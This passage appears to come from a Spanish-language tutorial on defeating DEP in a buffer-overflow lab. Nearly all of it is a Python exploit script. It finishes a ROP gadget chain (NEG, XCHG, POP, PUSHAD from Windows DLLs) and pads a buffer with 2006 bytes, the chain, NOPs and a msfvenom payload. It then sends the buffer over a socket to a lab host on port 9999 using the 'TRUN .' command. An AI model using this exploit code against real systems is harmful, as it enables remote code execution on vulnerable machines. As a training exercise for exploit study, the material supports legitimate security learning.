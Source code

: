 ```python
	0xffffffc0,  # Value to negate, will become 0x00000040
	0x766ba918,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
	0x76a3b884,  # XCHG EAX,EDX # RETN [RPCRT4.dll] ** REBASED ** ASLR
	#[---INFO:gadgets_to_set_ecx:---]
	0x75ad8b52,  # POP ECX # RETN [msvcrt.dll] ** REBASED ** ASLR
	0x76add416,  # &Writable location [RPCRT4.dll] ** REBASED ** ASLR
	#[---INFO:gadgets_to_set_edi:---]
	0x77423214,  # POP EDI # RETN [ntdll.dll] ** REBASED ** ASLR
	0x766ba91a,  # RETN (ROP NOP) [KERNEL32.DLL] ** REBASED ** ASLR
	#[---INFO:gadgets_to_set_eax:---]
	0x76aa79e6,  # POP EAX # RETN [RPCRT4.dll] ** REBASED ** ASLR
	0x90909090,  # nop
	#[---INFO:pushad:---]
	0x74250446,  # PUSHAD # RETN [mswsock.dll] ** REBASED ** ASLR
	]
	return b''.join(struct.pack('<I', _) for _ in rop_gadgets)
# en python3 es importante que este en bytes por eso añado una "b"

def main():

    rop_chain = create_rop_chain()
    nop = b'\x90'*6 #agregamos 6 nops para que sea mas efectivo y no haya problema

    
    buffer = b"A"*2006
    buffer += rop_chain # llama a la funcion create_rop_chain()
    buffer += nop #NoOperation
    buffer += buf # nuestro payload de msfvenom
    buffer += b"\xCC"*(3500-2006-(len(rop_chain)-len(nop)-len(buf)))
		#Configuramos para terminar de rellenar con "C"
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("192.168.234.133", 9999))
        s.recv(1024)
        s.send(b'TRUN .' + buffer)
        s.close()

    except Exception as e:
        print(e)

main()
```

![Untitled](/assets/images/Buffer-Overflow-byp-dep/Untitled%2010.png)